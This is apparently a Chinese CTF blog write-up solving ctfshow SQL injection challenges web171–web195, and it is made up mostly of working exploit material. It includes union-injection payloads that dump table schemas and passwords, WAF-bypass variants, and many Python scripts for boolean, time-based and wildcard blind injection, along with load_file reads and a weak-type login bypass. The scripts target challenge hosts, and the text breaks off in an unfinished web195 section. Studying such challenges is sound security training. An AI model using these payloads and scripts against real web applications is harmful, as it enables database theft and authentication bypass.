







+++
title = "ctfshowSql注入"
slug = "ctfshow-sql-injection"
description = "SQL注入练习"
date = "2025-04-29T16:33:07"
lastmod = "2025-04-29T16:33:07"
image = ""
license = ""
categories = ["talk"]
tags = ["姿势", "mysql"]
+++

有一些师傅在去年就开始看我博客了，但是我还弄了一个每月计划，其中我最想写的是mysql注入，当时草草的看了看狗哥写的一篇文章让我看的也很想写，很想记录一下这些东西，顺便练习一下如何去写脚本，恰逢这几天，有不少师傅都在问，我就从ctfshow的SQL注入模块来学习一下一些有趣的姿势，简单的写写exp

## web171

万能密码`1'||1%23`

## web172

直接联合注入就好了

```sql
1' union select 1,2,3%23

1' union select 1,2%23

1' union select group_concat(schema_name),2 from information_schema.schemata%23

1' union select group_concat(table_name),2 from information_schema.tables where table_schema="ctfshow_web"%23

1' union select group_concat(column_name),2 from information_schema.columns where table_name="ctfshow_user2"%23

1' union select group_concat(password),2 from ctfshow_user2%23
```

## web173

```sql
-1' union select 1,database(),3 --+

-1' union select 1,group_concat(table_name),3 from information_schema.tables where table_schema='ctfshow_web' --+

-1' union select 1,group_concat(column_name),3 from information_schema.columns where table_name='ctfshow_user3' --+

-1' union select 1,2,to_base64(password) from ctfshow_user3 --+
```

方法一样，换个函数

## web174

没有数据页了，那就盲注一下吧，可以直接猜到表名和列名，所以测测就可以打

```
1' and 1=if(ascii(substr((select group_concat(password) from ctfshow_user4),1,1))>1,1,0)--+
```

用二分法比较快，个人也比较喜欢，除非非要使用字符集来打，不然都是写的这类脚本

```python
import requests

url = "http://941d949a-5fef-41da-8abd-6594f601ee1c.challenge.ctf.show/api/v4.php"
result = ''
i = 0

while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) //2

        # payload = f'''1' and 1=if(ascii(substr((select group_concat(password) from ctfshow_user4),{i},1))>{mid},1,0)--+'''
        payload = f'''1' and 1=if(ascii(substr((select password from ctfshow_user4 limit 24,1),{i},1))>{mid},1,0)--+'''
        # print(payload)
        r = requests.get(url+"?id="+payload)
        if "admin" in r.text:
            head = mid + 1
        else:
            tail = mid

    if head != 32:
        result += chr(head)
    else:
        break
    print(result)

```

## web175

有权限写文件，也可以时间盲注，我写个脚本还是，后面比赛发现`try\catch`模块容易出问题，所以不写那一种写法

```python
import requests
import time

url = "http://f77c567a-e676-4d00-90f0-7ee558acbfd1.challenge.ctf.show/api/v5.php"
result = ''
i = 0
DELAY_THRESHOLD=3

while True:
    i = i + 1
    head = 32
    tail = 127

    while head < tail:
        mid = (head + tail) //2

        payload = f'''1' and 1=if(ascii(substr((select password from ctfshow_user5 limit 24,1),{i},1))>{mid},sleep(5),0)--+'''
        # print(payload)
        start_time = time.time()
        r = requests.get(url+"?id="+payload)
        request_time = time.time() - start_time

        if request_time >= DELAY_THRESHOLD:
            print(f"Delay triggered! ASCII > {mid}")
            head = mid + 1
        else:
            print(f"No delay. ASCII <= {mid}")
            tail = mid

	if head != 32:
        result += chr(head)
    else:
        break
    print(result)

```

没关打印，给自己看跑的过程也还不错，因为时间还真是挺久的，这里说一个小点，有时候`sleep(5)`网站并不一定会休眠5秒，所以要看，而且避免网络波动导致的原因，最好是把时间弄长点

## web176

大小写绕过

```sql
-1'union sElect 1,2,group_concat(password) from ctfshow_user--+
```

## web177

`/**/`绕过空格

```sql
-1'/**/union/**/select/**/1,2,password/**/from/**/ctfshow_user/**/where/**/username='flag'%23
```

## web178

`%09`绕过空格

```sql
-1'%09union%09select%091,2,password%09from%09ctfshow_user%23
```

## web179

`%0c`绕过空格

```sql
-1'union%0cselect%0c1,2,password%0cfrom%0cctfshow_user%23
```

## web180

这里不是很好猜了，写了一个脚本来进行fuzz出waf

```python
import requests
import re

target = re.compile("admin")
url="http://638fd489-36ef-4f5d-91bb-aad72adb099c.challenge.ctf.show/api"

def repisTrue(char):
    payload=f'''1'and'{char}'='{char}'''
    r = requests.get(url+"?id="+payload)
    w = target.search(r.text)
    if w is not None:
        return True
    return False


if __name__ == '__main__':
    right = []
    waf = []
    for i in range(32,127):
        if repisTrue(chr(i)):
            right.append((i, chr(i)))
        else:
            waf.append((i, chr(i)))
    print("right:", right)
    print("waf:", waf)

```

```sql
-1'%0cuniOn%0cselEct%0c'1','2','3

-1'%0cuniOn%0cselEct%0c'1',database(),'3

-1'%0cuniOn%0cselEct%0c1,(select%0cgroup_concat(table_name)%0cfrom%0cinformation_schema.tables%0cwhere%0ctable_schema=database()),'3

-1'%0cuniOn%0cselEct%0c1,(select%0cgroup_concat(column_name)%0cfrom%0cinformation_schema.columns%0cwhere%0ctable_schema=database()%0cand%0ctable_name='ctfshow_user'),'3

-1'%0cuniOn%0cselEct%0c1,(select%0cgroup_concat(password)%0cfrom%0cctfshow_user%0c),'3
```

## web181

```
$sql = "select id,username,password from ctfshow_user where username !='flag' and id = '".$_GET['id']."' limit 1;";
```

| 优先级 | 运算符                                                       |
| ------ | ------------------------------------------------------------ |
| 1      | `:=`                                                         |
| 2      | \|\|\OR\XOR                                                  |
| 3      | `&&`, `AND`                                                  |
| 4      | `NOT`                                                        |
| 5      | `BETWEEN`, `CASE`, `WHEN`, `THEN`, `ELSE`                    |
| 6      | `=`, `<=>`, `>=`, `>`, `<=`, `<`, `<>`, `!=`, `IS`, `LIKE`, `REGEXP`, `IN` |
| 7      | \|                                                           |
| 8      | `&`                                                          |
| 9      | `<<`, `>>`                                                   |
| 10     | `-`, `+`                                                     |
| 11     | `*`, `/`, `DIV`, `%`, `MOD`                                  |
| 12     | `^`                                                          |
| 13     | `-` (一元减号), `~` (一元比特反转)                           |
| 14     | `!`                                                          |
| 15     | `BINARY`, `COLLATE`                                          |

> 注：数字越小，优先级越低；数字越大，优先级越高。MySQL中的运算符优先级从低到高排列。

这里很容易看出来我们直接插入`username`为`flag`即可获得flag，

```sql
select id,username,password from ctfshow_user where username !='flag' and id = '-1'||username='flag' limit 1;
```

说实话我没有看太懂，然后在我们SU的discord里面问了问



就是这个样子，输入`-1'||username='flag`

## web182

过滤了flag利用通配符

`-1'||(username)like'fla_`或者是`-1'||(username)like'fla%`

| 通配符 | 描述                   | 示例                                         |
| ------ | ---------------------- | -------------------------------------------- |
| `%`    | 匹配零个或多个任意字符 | `'a%'` 匹配所有以a开头的字符串               |
| `_`    | 匹配单个任意字符       | `'a_'` 匹配所有以a开头的两个字符长度的字符串 |

如果需要匹配通配符字符本身（即匹配 `%` 或 `_` 字符），可以使用转义符 `\` 进行转义：

| 模式        | 说明               | 匹配示例 | 不匹配示例         |
| ----------- | ------------------ | -------- | ------------------ |
| `'10\%'`    | 匹配字符串"10%"    | '10%'    | '10', '100%'       |
| `'\_apple'` | 匹配字符串"_apple" | '_apple' | 'apple', 'a_apple' |

## web183

利用通配符来匹配

```sql
select count(pass) from (ctfshow_user)where(pass)like'{target+s}%';
```

查出来只有一条数据，也就是回显为`$user_count = 1;`，开始盲注

```python
import requests
url="http://f8df49db-5bb2-442e-8ce6-43929bc95b90.challenge.ctf.show/select-waf.php"
strings="1234567890abcdef-}"

target="ctfshow{"
for i in range(100):
    for s in strings:
        payload=f"(ctfshow_user)where(pass)like'{target+s}%'"
        data={"tableName":payload}
        r=requests.post(url,data)
        if "$user_count = 1;" in r.text:
            target+=s
            print(target)
            break
        if s =="}":
            exit()
```

## web184

利用`group by`对查询结果进行分组，再来筛选，写个脚本

```sql
select count(*) from ctfshow_user group by pass having pass like 0x63746673686f777b25;
```

```python
import requests

url = "http://99243179-d071-4d4e-8e0a-8bb4c0177aa9.challenge.ctf.show/select-waf.php"
target = 'ctfshow{'

def str_to_hex(str):
    return ''.join([hex(ord(c)).replace('0x', '') for c in str])


for i in range(1, 50):
    for j in '0123456789abcdefghijklmnopqrstuvwxyz-{}':
        payload = "ctfshow_user group by pass having pass like 0x{0}".format(str_to_hex(target + j + '%'))
        # print(payload)
        data = {'tableName': payload}
        r = requests.post(url=url, data=data)
        # print(r.text)
        if "$user_count = 1;" in r.text:
            target += j
            print(target)
        if len(target) == 44:
            print(target + '}')
            exit()

```

也可以利用内连接\左连接\右连接

```sql
select count(*) from ctfshow_user a inner join ctfshow_user b on b.pass like 0x63746673686f777b25;

select count(*) from ctfshow_user a right join ctfshow_user b on b.pass like 0x63746673686f777b25;

select count(*) from ctfshow_user a left join ctfshow_user b on b.pass like 0x63746673686f777b25;
```

写出三个脚本(练习为主)

```python
import requests

url = "http://99243179-d071-4d4e-8e0a-8bb4c0177aa9.challenge.ctf.show/select-waf.php"
target = 'ctfshow{'

def str_to_hex(str):
    return ''.join([hex(ord(c)).replace('0x', '') for c in str])


for i in range(1, 50):
    for j in '0123456789abcdefghijklmnopqrstuvwxyz-{}':
        payload = "ctfshow_user a inner join ctfshow_user b on b.pass like 0x{0}".format(str_to_hex(target + j + '%'))
        # print(payload)
        data = {'tableName': payload}
        r = requests.post(url=url, data=data)
        # print(r.text)
        if "$user_count = 22;" in r.text:
            target += j
            print(target)
        if len(target) == 44:
            print(target + '}')
            exit()

```

```python
import requests

url = "http://99243179-d071-4d4e-8e0a-8bb4c0177aa9.challenge.ctf.show/select-waf.php"
target = 'ctfshow{'

def str_to_hex(str):
    return ''.join([hex(ord(c)).replace('0x', '') for c in str])


for i in range(1, 50):
    for j in '0123456789abcdefghijklmnopqrstuvwxyz-{}':
        payload = "ctfshow_user a right join ctfshow_user b on b.pass like 0x{0}".format(str_to_hex(target + j + '%'))
        # print(payload)
        data = {'tableName': payload}
        r = requests.post(url=url, data=data)
        # print(r.text)
        if "$user_count = 43;" in r.text:
            target += j
            print(target)
        if len(target) == 44:
            print(target + '}')
            exit()

```

为什么我没写左链接的脚本，因为我发现怎么写，他的回显都是一样的，没有区别无法完成盲注的任务，原因是什么呢？

- LEFT JOIN 实现了一个左表保留的操作，确保左表中的每一行至少出现在结果集中一次，无论右表中是否存在匹配行。如果没有找到匹配行，SQL 会用 NULL 值填充右表的列。GeeksforGeek +2 这种做法创建了一个可预测的基础，**该基础在任何连接条件下都保持不变。**
- 相比之下，INNER JOIN 执行交集操作，结果集的大小会根据两个表之间实际匹配的数量而大幅变化。在 postgresql 中，结果集可以是零行（没有匹配）到笛卡尔积（每行多个匹配）。RIGHT JOIN 的行为类似于 LEFT JOIN，但在自连接场景中使用时会保留右表，从而在使用时产生类似的可变性。

## web185

这题就比较复杂了，需要自增出true来表示数字，再利用`chr`和`concat`来表示字符串，不过注入还是用的`group by`和`like`通配符来打的，写个脚本

```python
import string
import requests

url = 'http://50a0761d-8695-48df-bfe5-9410e5169332.challenge.ctf.show/select-waf.php'
payload = 'ctfshow_user group by pass having pass like(concat({}))'
target = 'ctfshow{'


def createNum(n):
    num = 'true'
    if n == 1:
        return 'true'
    else:
        for i in range(n - 1):
            num += "+true"
        return num


def createStrNum(c):
    str = ''
    str += 'chr(' + createNum(ord(c[0])) + ')'
    for i in c[1:]:
        str += ',chr(' + createNum(ord(i)) + ')'
    return str


uuid = string.ascii_lowercase + string.digits + "-{}"

for i in range(1, 50):
    for j in uuid:
        poc = payload.format(createStrNum(target + j + "%"))
        # print(poc)
        data = {
            'tableName': poc
        }
        r = requests.post(url, data)
        if "$user_count = 0;" not in r.text:
            target += j
            print(target)
            if j == '}':
                exit()
            break

```

## web186

内连接，绕过还是一样绕

```python
import string
import requests

url = 'http://50a0761d-8695-48df-bfe5-9410e5169332.challenge.ctf.show/select-waf.php'
payload = 'ctfshow_user a inner join ctfshow_user b on b.pass like(concat({}))'
target = 'ctfshow{'


def createNum(n):
    num = 'true'
    if n == 1:
        return 'true'
    else:
        for i in range(n - 1):
            num += "+true"
        return num


def createStrNum(c):
    str = ''
    str += 'chr(' + createNum(ord(c[0])) + ')'
    for i in c[1:]:
        str += ',chr(' + createNum(ord(i)) + ')'
    return str


uuid = string.ascii_lowercase + string.digits + "-{}"

for i in range(1, 50):
    for j in uuid:
        poc = payload.format(createStrNum(target + j + "%"))
        # print(poc)
        data = {
            'tableName': poc
        }
        r = requests.post(url, data)
        if "$user_count = 0;" not in r.text:
            target += j
            print(target)
            if j == '}':
                exit()
            break

```

## web187



这不就把`'`变出来了`ffifdyop`

```sql
select count(*) from ctfshow_user where username = 'admin' and password= ''or'6�]��!r,��b';
```

## web188

```php
if($row['pass']==intval($password)){
    $ret['msg']='登陆成功';
    array_push($ret['data'], array('flag'=>$flag));
}
```

弱类型转换，一般id为0或者1的用户为admin，密码fuzz一下是0

```http
POST /api/ HTTP/1.1
Host: bb3afd2b-ab85-40c7-aad1-7804d184482a.challenge.ctf.show
Cookie: cf_clearance=FfFkJ_rCEzOW7OasGYKDaQdTABU_BVynV76XtJXtEMk-1737092124-1.2.1.1-08wtjOyMUOY8ThDT33UiGmkBadSYm33GtZ8UEqnhMYn45iIQYIfmtkdn0rCEq2cLjGXf0XdRXNrM4molLyQ8vDQnKyYt1ixrhYI8wUqSsnE_reHQM3L6B3Gr67nSRP1zSwCAeJEqXOf02wzTlhdAoBkjyG4DbDdMuMDw6HuBeMCHow7p3zZfJTguhcrd.YRyR8ZagXt2h1DBgZSdnioehaLAzj2nA8s1weMd_HWveEI4ls1PWJz.ADM_9UTNjpCJL6Rlu3t3JqrqEctObC1eUoGYZYf3LWHGDpgLNPYoVjs
Content-Length: 21
Sec-Ch-Ua-Platform: "Windows"
X-Requested-With: XMLHttpRequest
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: application/json, text/javascript, */*; q=0.01
Sec-Ch-Ua: "Google Chrome";v="135", "Not-A.Brand";v="8", "Chromium";v="135"
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Sec-Ch-Ua-Mobile: ?0
Origin: https://bb3afd2b-ab85-40c7-aad1-7804d184482a.challenge.ctf.show
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: https://bb3afd2b-ab85-40c7-aad1-7804d184482a.challenge.ctf.show/select-waf.php
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Priority: u=1, i
Connection: close

username=0&password=0
```

## web189

利用`load_file`进行盲注，因为我们是找flag，所以直接正则匹配，写个脚本

```python
import requests
import string

url = 'http://b412e013-0ef3-4426-a54b-c77bc2ff1648.challenge.ctf.show/api/'
uuid = string.digits+string.ascii_lowercase+"-}"
target = 'ctfshow{'

for i in range(50):
    for char in uuid:
        payload = "if((load_file('/var/www/html/api/index.php')regexp('{0}')),1,0)"
        # print(char)
        data = {
            'username' : payload.format(target+char),
            'password' : 0
        }
        r = requests.post(url, data)
        if "\\u67e5\\u8be2\\u5931\\u8d25" in r.text:
            target += char
            print(target)
            break
        if char == "}" in r.text:
            exit()
```

写了一会，发现url没换，绷不住了

## web190

Sql语句直接对参数进行拼接，直接打盲注，写Sql语句注意括号

```python
import requests

url="http://65067a4c-0f8b-4d9d-89ea-dc1ab6362ee3.challenge.ctf.show/api/"
i=0
target = ""

while True:
    i+=1
    head=32
    tail=127
    while head+1 <tail:
        mid=(tail+head)//2
        # payload="admin'and (ascii(substr((select database()),{0},1))<{1})#".format(i,mid)
        # ctfshow_web
        # payload = "admin'and (ascii(substr((select group_concat(table_name)from information_schema.tables where table_schema='ctfshow_web'),{0},1))<{1})#".format(
        #     i, mid)
        # ctfshow_fl0g,ctfshow_user
        # payload = "admin'and (ascii(substr((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_fl0g'),{0},1))<{1})#".format(
        #     i, mid)
        # id, f1ag
        payload = "admin'and (ascii(substr((select f1ag from ctfshow_fl0g),{0},1))<{1})#".format(
                 i, mid)
        # print(payload)
        data={
            "username":payload,
            "password":0,
        }
        r=requests.post(url,data)
        if "\\u5bc6\\u7801\\u9519\\u8bef" in r.text:
            tail = mid
        else:
            head=mid

    if head != 32:
        target += chr(head)
    else:
        break
    print(target)
```

这个脚本写了特别久，因为每次注出来之后他就不往里面加，陷入了一个死循环，后面我把第二个while的条件改了一下才出来的，真得**随机应变**啊

## web191

用ord绕过，整个数据库都没变

```python
import requests

url="http://d50e11ca-112a-4b1c-bb8f-6ff147554e84.challenge.ctf.show/api/"
i=0
target = ""

while True:
    i+=1
    head=32
    tail=127
    while head+1 <tail:
        mid=(tail+head)//2
        # payload="admin'and (ord(substr((select database()),{0},1))<{1})#".format(i,mid)
        # ctfshow_web
        # payload = "admin'and (ord(substr((select group_concat(table_name)from information_schema.tables where table_schema='ctfshow_web'),{0},1))<{1})#".format(
        #     i, mid)
        # ctfshow_fl0g,ctfshow_user
        # payload = "admin'and (ord(substr((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_fl0g'),{0},1))<{1})#".format(
        #     i, mid)
        # id, f1ag
        payload = "admin'and (ord(substr((select f1ag from ctfshow_fl0g),{0},1))<{1})#".format(
                 i, mid)
        # print(payload)
        data={
            "username":payload,
            "password":0,
        }
        r=requests.post(url,data)
        if "\\u5bc6\\u7801\\u9519\\u8bef" in r.text:
            tail = mid
        else:
            head=mid

    if head != 32:
        target += chr(head)
    else:
        break
    print(target)
```

## web192

没有ord了，用`chr`来绕过，只不过好像需要小写字符，而且因为是二分法，`_`的ascii字符是`95`，就很容易跳过，不过自己手动换一下就好了，如果硬要识别出来就要遍历了，那样子不够快

```python
# 二分法
import requests

url="http://e3ca5daa-7fec-4bfa-9d2f-7282f1dbda31.challenge.ctf.show/api/"
i=0
target = ""

while True:
    i+=1
    head=32
    tail=127
    while head+1 <tail:
        mid=(tail+head)//2
        # payload="admin'and ((substr((select database()),{0},1))<chr({1}))#".format(i,mid)
        # ctfshow_web
        # payload = "admin'and ((substr((select group_concat(table_name)from information_schema.tables where table_schema='ctfshow_web'),{0},1))<chr({1}))#".format(
        #     i, mid)
        # ctfshow_fl0g,ctfshow_user
        # payload = "admin'and ((substr((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_fl0g'),{0},1))<chr({1}))#".format(
        #     i, mid)
        # id, f1ag
        payload = "admin'and ((substr((select f1ag from ctfshow_fl0g),{0},1))<chr({1}))#".format(
                 i, mid)
        # print(payload)
        data={
            "username":payload,
            "password":0,
        }
        r=requests.post(url,data)
        if "\\u5bc6\\u7801\\u9519\\u8bef" in r.text:
            tail = mid
        else:
            head=mid

    if head != 32:
        target += chr(head)
    else:
        break
    print(target.lower())
```

```python
# 遍历
import requests

url="http://e3ca5daa-7fec-4bfa-9d2f-7282f1dbda31.challenge.ctf.show/api/"
i=0
target = ""

while True:
    i+=1
    head=32
    tail=127
    for j in range(head,tail):
        payload="admin'and ((substr((select database()),{0},1))=chr({1}))#".format(i,j)
        # ctfshow_web
        # payload = "admin'and ((substr((select group_concat(table_name)from information_schema.tables where table_schema='ctfshow_web'),{0},1))=chr({1}))#".format(
        #     i, j)
        # ctfshow_fl0g,ctfshow_user
        # payload = "admin'and ((substr((select group_concat(column_name)from information_schema.columns where table_name='ctfshow_fl0g'),{0},1))=chr({1}))#".format(
        #     i, j)
        # id, f1ag
        # payload = "admin'and ((substr((select f1ag from ctfshow_fl0g),{0},1))=chr({1}))#".format(
        #          i, j)
        # print(payload)
        data={
            "username":payload,
            "password":0,
        }
        r=requests.post(url,data)
        if "\\u5bc6\\u7801\\u9519\\u8bef" in r.text:
            target += chr(j)
            print(target.lower())
            break

```

## web193\194

`substr`被过滤了，`like`和`%`来绕过

```python
import requests

url='http://93cacefa-296a-4488-87b6-4d9960e2804a.challenge.ctf.show/api/'
target=''

for i in range(100):
    for j in 'abcdefghijklmnopqrstuvwxyz0123456789-,{}_':
        # payload="admin'and (select database())like '{}'#".format(target+j+'%')
        # ctfshow_web
        # payload = "admin'and (select group_concat(table_name)from information_schema.tables where table_schema='ctfshow_web')like '{}'#".format(
        #     target + j + '%')
        # ctfshow_flxg,ctfshow_user
        # payload = "admin'and (select group_concat(column_name)from information_schema.columns where table_name='ctfshow_flxg')like '{}'#".format(
        #     target + j + '%')
        # id,f1ag
        payload = "admin'and (select f1ag from ctfshow_flxg)like '{}'#".format(
            target + j + '%')

        # print(payload)
        data={
            'username':payload,
            'password':0
        }
        r=requests.post(url,data)
        if "\\u5bc6\\u7801\\u9519\\u8bef" in r.text:
            target+=j
            print(target)
            break

```

## web195

直接闭合打堆叠注入

```sql
